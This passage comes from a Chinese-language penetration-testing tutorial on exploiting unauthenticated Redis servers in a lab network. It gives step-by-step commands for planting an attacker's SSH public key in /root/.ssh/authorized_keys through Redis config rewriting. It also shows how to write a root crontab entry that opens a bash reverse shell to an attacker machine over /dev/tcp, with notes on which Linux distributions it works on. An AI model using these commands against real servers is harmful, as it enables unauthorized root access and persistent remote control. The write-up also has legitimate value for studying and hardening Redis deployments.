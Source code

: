 访问web服务器，成功获取shell
![](https://img-blog.csdnimg.cn/07cbb4b62405455ea2dbea4cd9268a44.png)
![](https://img-blog.csdnimg.cn/d36f0c8db3a74dd4924de4faac29682e.png)

### 利用redis写ssh公钥
利用条件：
>服务端的Redis连接存在未授权，在攻击机上能用redis-cli直接登陆连接，并未登陆验证
服务端存在.ssh目录并且有写入的权限

原理就是在数据库中插入一条数据，将本机的公钥作为value，key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生成一个授权的key

首先在攻击机的`/root/.ssh`目录里生成ssh公钥key
```bash
ssh-keygen -t rsa
```
![](https://img-blog.csdnimg.cn/56c67d748b604f74a360f6ed6697d05f.png)

接着将公钥导入key.txt文件(前后用\n换行，避免和Redis里其他缓存数据混合)，再把key.txt文件内容写入服务端redis的缓冲里
```bash
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > /root/.ssh/key.txt
cat /root/.ssh/key.txt | redis-cli -h 192.168.111.133 -x set xxx

// -x 代表从标准输入读取数据作为该命令的最后一个参数
```
![](https://img-blog.csdnimg.cn/7749431a860e4330ba7a9a36cef3a5f7.png)

然后，使用攻击机连接目标机器redis，设置redis的备份路径为`/root/.ssh`和保存文件名为`authorized_keys`，并将数据保存在目标服务器硬盘上
```bash
redis-cli -h 192.168.111.133
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```
![](https://img-blog.csdnimg.cn/e49c8989d05d42df98ce816458498df9.png)


最后`ssh -i id_rsa root@192.168.111.133`
![](https://img-blog.csdnimg.cn/40411ff9e1214a198a289fd35d1376e1.png)

### 利用redis写计划任务
在**权限足够**的情况下，利用redis写入文件到计划任务目录下执行

原理就是在数据库中插入一条数据，将计划任务的内容作为value，key值随意，然后通过修改数据库的默认路径为目标主机计划任务的路径，把缓冲的数据保存在文件里，这样就可以在服务器端成功写入一个计划任务进行反弹shell
```bash
redis-cli -h 192.168.111.133
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.111.128/6666 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```
>**这个方法只能Centos上使用，Ubuntu上行不通，原因如下：**
>- 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/<username>`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/<username>`权限644也能执行
>- 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错
